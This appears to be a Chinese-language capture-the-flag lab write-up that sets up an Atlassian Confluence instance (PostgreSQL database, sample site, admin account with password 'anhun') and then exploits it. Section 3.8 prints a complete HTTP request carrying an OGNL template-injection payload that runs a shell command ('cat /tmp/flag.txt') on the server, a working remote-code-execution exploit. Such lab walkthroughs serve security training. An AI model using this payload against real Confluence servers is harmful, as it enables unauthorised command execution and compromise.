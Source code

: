   
**3.5**  
  
**配置数据库信息**  
  
  
数据库类型选择PostgreSQL，端口为5432，数据库名称postgres。  
  
数据库创建成功。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3XHJ1RF0NSZnXBN6Pf1DMaib3gs7ricdTWLxprmQyxlXEjnZ9PeBpHKxnibuvODSkYpCNVQBWdUTPkALvC515oYMQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3XHJ1RF0NSZnXBN6Pf1DMaib3gs7ricdTWib6vfOw2Kv8NK04Eb5F4JibESPibCQKuvlzQsibfPnvMLtJUMEh2icbgRgg/640?wx_fmt=png&from=appmsg "")  
  
  
**3.6**  
  
**创建站点信息**  
  
  
创建一个示例站点，可直接开始立即使用Confluence。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3XHJ1RF0NSZnXBN6Pf1DMaib3gs7ricdTWesVpAEVLYxibyeSibHZWcg3icYl1ttRicfb1zfb7SoCPPTeuHgJz4p6OicQ/640?wx_fmt=png&from=appmsg "")  
  
选择-在Confluence中管理用户和组。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3XHJ1RF0NSZnXBN6Pf1DMaib3gs7ricdTWVWFTrRFTFsjvCgkh4nd7so2z1ib2y48kVDcI07D2ogjdAJwmxfH4vGw/640?wx_fmt=png&from=appmsg "")  
  
  
**3.7**  
  
**设置系统管理员账户**  
  
  
设置管理员账户，用户名admin，密码anhun。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3XHJ1RF0NSZnXBN6Pf1DMaib3gs7ricdTWftshQyVYUjiaYzjgAQM9cdGWr0428KqSgoJbkAiaHhpe4ibiavfJr5pPQA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3XHJ1RF0NSZnXBN6Pf1DMaib3gs7ricdTW6vQFMuplpzp4tk6SrJkvfjO8cK8ZBvTiccSorKB06vicsRGBNW9ibO2IQ/640?wx_fmt=png&from=appmsg "")  
  
  
**3.8**  
  
**漏洞利用**  
  
  
网上已有公开POC，抓包修改POC中的相关地址信息，即可获得flag。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3XHJ1RF0NSZnXBN6Pf1DMaib3gs7ricdTWoSknIF9dH8y7pibZbUsdXhYwvGVASzzxhxauqnJJwxuaFhabEmURzew/640?wx_fmt=png&from=appmsg "")  
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: 4b18e5a5-3093-4cb9-a19e-5e544002ea1a-1133.cyberstrikelab.com:83
Content-Length: 306
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://4f0b8240-b9ee-42fc-b9e6-6e8654f11a39-454.cyberstrikelab.com:83
Referer: http://4b18e5a5-3093-4cb9-a19e-5e544002ea1a-1133.cyberstrikelab.com:83/login.action?os_destination=%2Findex.action&permissionViolation=true
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=8339B1D15926DCE51EB9F81BB35572AD
Connection: keep-alive
label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"cat /tmp/flag.txt"}))
```  
  
